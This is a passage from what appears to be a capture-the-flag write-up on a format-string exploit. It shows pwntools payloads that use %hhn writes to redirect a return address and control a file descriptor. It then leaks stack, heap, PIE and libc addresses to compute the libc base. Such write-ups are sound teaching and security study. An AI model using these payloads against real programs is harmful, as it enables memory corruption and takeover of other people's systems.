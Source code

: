 Notice how the value of `eax` is what get's stored in the local `fd` variable.
If we can control the value of `eax` before jumping there, we can override the `fd` that's used in the `dprinf` call. If we check what the `eax` value is at the return from `service`, we find that it is set to the value returned from `dprintf`. And `dprintf` returns the amount of bytes written, so we control that!

So, here's the next payload implementing that:

```python
STAGE1 = "".join([
    # we need to overwrite the return address again, so that the program does not exit
    # instead, we want it to jump to the address with lbs 0x7e
    f"%{0x7e}c%46$hhn",
    
    # now, make sure that the lsb of the return value of dprintf is 0x1 (the value we want for fd)
    # so we write additional 0x101-0x7e bytes
    f"%{0x101-0x7e}c",
])
r.sendlineafter("> ", STAGE1)
```

After this, we can easily leak all the interesting addresses:

```python
# leak all the things
STAGE2 = "".join([
    # set ret to loop
    f"%{0x8e}c%46$hhn",

    "LEAKS:",

    # leak stack
    "%5$p,",

    # leak heap
    "%9$p,",

    # leak pie base
    "%12$p,",

    # leak libc
    "%16$p,",
])

r.sendlineafter("> ", STAGE2)
r.recvuntil("LEAKS:")
stack_ptr, heap_ptr, pie_ptr, libc_ptr = [int(x.decode(), 16) for x in r.recvline().split(b",")[:-1]]
info(f"{stack_ptr = :#x} {heap_ptr = :#x} {pie_ptr = :#x} {libc_ptr = :#x}")

rbp = stack_ptr - 0x128
libc.address = libc_ptr - libc.symbols.__libc_start_main - 243
info(f"libc base: {libc.address:#x}")
```
